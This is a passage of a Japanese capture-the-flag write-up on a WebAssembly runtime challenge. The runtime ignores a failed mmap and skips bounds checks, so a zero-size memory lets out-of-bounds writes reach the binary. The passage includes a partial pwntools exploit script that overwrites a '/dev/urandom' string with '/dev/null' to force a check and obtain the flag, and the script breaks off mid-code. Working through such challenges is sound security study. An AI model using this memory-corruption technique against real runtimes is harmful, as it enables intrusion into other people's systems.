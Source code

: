 ```
(memory 1)
```

とすると、1Page 分(65536[bytes])のメモリを確保し、そのメモリを使用可能にするという意味になります。このランタイムでは、必要サイズを mmap の引数に渡し、帰ってきたアドレスをベースにしてメモリアクセスを行うことができます。
例えば、確保したメモリ領域の`offset=0x100`に`0xdeadbeef`を書き込むには、次のようにすることでできます。

```
  (i32.store offset=0x100 (i32.const 0) (i32.const 0xdeadbeef))
```

実は、この問題の核となる脆弱性は、 mmap が失敗したか否かを見ていないことと、境界チェックを行っていないことです。

```
 If len is zero, mmap() shall fail and no mapping shall be established.
```

とあるように、mmap は `len = 0` で失敗するので、`(memory 0)` で mmap が失敗するとベースアドレスが -1 に設定されます。バイナリが no PIE なので、`offset=0x40xxxx+1` とすると、バイナリのセクションにアクセスできるようになります。ここから自由に書き換えていけば勝ちです。

まぁ頑張ればシェルとかを取れるのかもしれないですが、この問題ではもっと賢い方法があります。`check_variable` 内部で使われている `/dev/urandom` という文字列が書き込み可能になっていたので、そこを `/dev/null` とかに置き換えることで、`check_variable` で比較される値を 0 に固定することができます。
あとは引数に 0 を渡せばフラグが降ってきます。

exploit.py

```python
from pwn import *
import json
from wasmer import wat2wasm

binary = ELF('./defcon-wasi', checksec=True)

def exploit():
    io = gdb.debug("./defcon-wasi", exe="./defcon-wasi_dbg", gdbscript=script)
    # io = process("./defcon-wasi")

    targets = [0x100c206, 0x100d206]
    flag_path = b"/dev/null\x00"

    def write_code(dest, data: bytes):
        ret = ""

        for i in range(0, len(data), 4):
            v = u32(data[i:i+4].ljust(4, b'\x00'), endian='little')
            ret += f"""
                (i32.store offset={dest + i + 1} (i32.const {v}))
            """

        return ret

    wasm = wat2wasm(
        f"""
            (module
                (import "env" "print_number" (func $print_number (param i32)))
                (import "env" "check_variable" (func $check_variable (param i32 i32 i32)))
                (import "wasi_snapshot_preview1" "fd_write" (func $fd_write (param i32 i32 i32 i32) ))
                (import "wasi_snapshot_preview1" "proc_exit" (func $proc_exit (param i32) ))

                (memory 0)
                (export "memory" (memory 0))

                (func $_start
                    {write_code(targets[0], flag_path)}
                    {write_code(targets[1], flag_path)}

                )
```